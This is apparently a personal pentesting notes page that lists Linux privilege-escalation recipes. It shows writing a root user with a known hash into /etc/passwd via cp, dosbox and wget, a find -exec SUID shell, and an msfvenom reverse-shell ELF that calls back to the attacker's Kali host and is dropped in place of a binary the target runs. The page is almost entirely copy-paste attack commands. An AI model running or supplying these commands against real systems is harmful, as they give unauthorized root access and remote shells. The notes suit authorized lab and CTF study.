 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

#### cp

Target:
```bash - target
cat /etc/passwd > passwd.orig
```

Kali:
```bash - kali
openssl passwd password
```

Target:
```bash - target
echo "newroot:D8rrIm3n0b6Sg:0:0:root:/root:/bin/bash" >> passwd.orig
```

```bash - target
cp passwd.orig /etc/passwd
```

```bash - target
su newroot
```

```bash - target
password
```

#### dosbox
First, you need to ssh into the target with -X flag:
```bash - kali
ssh -X $USER@$TARGET 
```

```bash - target
dosbox
```

![[Pasted image 20220325160823.png]]

---

If the above method does not work, try:

[[0._Port Forwarding Examples#VNC to DosBox]]


---

On the target machine:
```bash - target
echo 'newroot:L9yLGxncbOROc:0:0:root:/root:/bin/bash' > fkpasswd
```

Now in the DOS box:
```bash - target
mount d /
```

```bash - target
D:
```

```bash - target
type D:\HOME\$USER\FKPASSWD >> D:\ETC\PASSWD
```

Back in target:
```bash - target
su newroot
```

```bash - target
password
```

#### find
```bash - target
/usr/bin/find . -exec /bin/sh -p \; -quit
```

#### wget

```bash - kali
openssl passwd password
```

```bash - kali
echo "newroot:D8rrIm3n0b6Sg:0:0:root:/root:/bin/bash" >> passwd
```

```bash - target
wget http://$KALI/passwd -O /etc/passwd
```

```bash - target
su newroot
```

```bash - target
password
```

#### elf file

![[Pasted image 20220406205712.png]]

```bash - target
strings uploadtosecure
```

   
```bash - kali
msfvenom -p linux/x86/shell_reverse_tcp LHOST=$KALI LPORT=80 -f elf > scp.elf
```

![[rlwrap]]

Transfer to victim

[[TechLexicon/Penetration Testing/Reference/7._Tools/Python#Server]]

```bash - target
mv scp.elf scp
```

```bash - target
chmod 777 scp
```

```bash - target
./uploadtosecure
```


Last updated: `$= dv.current().file.mtime.toFormat("MMMM dd, yyyy 'at' HH:mm")`
